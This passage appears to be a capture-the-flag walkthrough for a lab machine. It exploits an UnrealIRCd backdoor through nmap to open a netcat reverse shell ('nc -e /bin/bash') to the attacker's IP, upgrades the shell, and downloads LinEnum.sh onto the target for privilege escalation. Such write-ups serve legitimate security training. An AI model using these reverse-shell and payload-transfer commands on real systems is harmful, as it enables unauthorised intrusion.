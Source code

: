 ```text
nc -nlvp 4444
```

Send a reverse shell to our listener from the target machine.

```text
nmap -p 8067 --script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash 10.10.14.6 4444"  10.10.10.117
```

We have a shell!

![](https://miro.medium.com/max/711/1*LxPuOuGpyvqKF3q_t4_QBQ.png)

Let’s upgrade it to a better shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground.

Let’s see if we have enough privileges to get the user.txt flag.

![](https://miro.medium.com/max/655/1*IrmCVsIYxEDxeWouAxJDrw.png)

We don’t. We need to escalate privileges.

## Privilege Escalation <a id="7076"></a>

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.6:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.
